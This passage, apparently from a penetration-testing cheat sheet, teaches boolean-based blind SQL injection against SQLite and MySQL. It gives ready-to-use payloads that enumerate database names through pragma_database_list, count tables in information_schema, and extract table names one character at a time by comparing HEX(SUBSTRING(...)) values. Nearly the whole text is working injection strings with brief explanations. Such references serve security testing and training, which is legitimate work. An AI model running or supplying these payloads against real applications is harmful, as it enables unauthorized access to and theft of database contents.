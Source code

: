 {% tab title="SQLite" %}
Principal database is call `main`, but It's possible that multiple database file are open, you can find their name's lenght like this :

```sql
1' AND (SELECT LENGTH(name) FROM pragma_database_list LIMIT 1 OFFSET 0)=1--  #False  
1' AND (SELECT LENGTH(name) FROM pragma_database_list LIMIT 1 OFFSET 0)=2--  #False
1' AND (SELECT LENGTH(name) FROM pragma_database_list LIMIT 1 OFFSET 0)=3--  #True ->length of first database is 3 characters.

1' AND (SELECT LENGTH(name) FROM pragma_database_list LIMIT 1 OFFSET 1)=3--  #True -> It means the length of second database is 3 characters.
```

Second, retrieve the name of database:

```sql
--True -> It means the first character of second database's name is p.
1' AND (SELECT hex(substr(name,1,1)) FROM pragma_database_list LIMIT 1 OFFSET 1)=HEX('p')-- 

--True -> It means the second character is s.
1' AND (SELECT hex(substr(name,2,1)) FROM pragma_database_list LIMIT 1 OFFSET 1)=HEX('s')--

--True -> It means the third character is s.
1' AND (SELECT hex(substr(name,3,1)) FROM pragma_database_list LIMIT 1 OFFSET 1)=HEX('s')--
```
{% endtab %}
{% endtabs %}

#### Getting Tables

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of tables:

```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2-- -  #True -> 2 tables
```

Second, retrieve length of each table

```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5-- - 

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=5-- - 
```

Third, retrieve name of each table

```sql
-- If True, the first char of the first table is u
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1))FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('u')-- -

-- If True, the second char of the first table is s
1'AND (SELECT HEX(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('s')-- -

-- If True, the first char of the second table is p
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=HEX('p')-- -
```
{% endtab %}
